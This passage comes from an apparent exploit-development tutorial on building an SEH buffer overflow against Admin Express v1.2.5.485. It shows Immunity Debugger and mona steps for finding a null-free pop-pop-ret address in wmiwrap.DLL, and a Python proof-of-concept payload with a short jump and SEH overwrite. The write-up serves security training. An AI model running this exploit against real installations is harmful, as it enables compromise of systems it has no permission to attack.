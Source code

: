 We can use the typical `pop <reg> pop <reg> ret` method to get our user supplied instructions onto the stack! We will need to use __mona__ to find an address in Admin Express that contains the instructions of `pop <reg> pop <reg> ret`. Here is the command in mona to use: 
`!mona seh`

<img src="{{ site.url }}{{ site.baseurl }}/images/4.png" alt="">

Better view of the addresses (open the above image in a new tab to see more clearly):

<img src="{{ site.url }}{{ site.baseurl }}/images/5a.png" alt="">

As you can see, there is a problem. All of the recommended memory addresses contain `00`, or null bytes. As we will find, these are not in our allowed character set. To get around this problem, read line that says:                                       `[+] Done.. Only the first 20 pointers are shown here, For more pointers, open seh.txt`. If you open __File Explorer__ and go to `C:\Program Files\Immunity Inc\Immunity Debugger\seh.txt` you can find a list of all instructions that contain the instructions `pop <reg> pop <reg> ret`within seh.txt

You can go to __seh.txt__ choose any of the memory locations that adhere to our character schema, and have no null bytes. We will get to finding all of the bad characters in a second, just keep [Trying Harder](https://www.offensive-security.com/when-things-get-tough/). The address I chose was: `0x10014C42`. You are more than welcome to try any addresses that work for you!

Before updating the PoC, let's ask ourselves a question. Now that we can control what gets loaded into the instruction pointer, what should we do? The typical thing to do in a SEH exploit would be to do a short jump into the second buffer of user supplied data, where presumably our shellcode is. Remember to restart Immunity, and press play. Here is the updated PoC:
```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

payload = "\x41" * 4260
payload += "\xeb\x06\x90\x90" 		# Short jump 6 bytes into C buffer
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL
payload += "\x43" * (5000-len(payload))	# The remaining bytes to create the crash. Changed to C's to differentiate
					# between 1st and last buffer.

print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
Execute the Python script, copying the output, and pasting it back into the __Folder Path__ field, we see the application crashes again! Let us do some more analysis.

We see there is no change in the registers in terms of which we are writing too! Let's view the SEH chain to verify our `pop <reg> pop <reg> ret` is loaded properly:

<img src="{{ site.url }}{{ site.baseurl }}/images/6.png" alt="">

Set a breakpoint with `F2` and pass the exception with `Shift` `F9`:
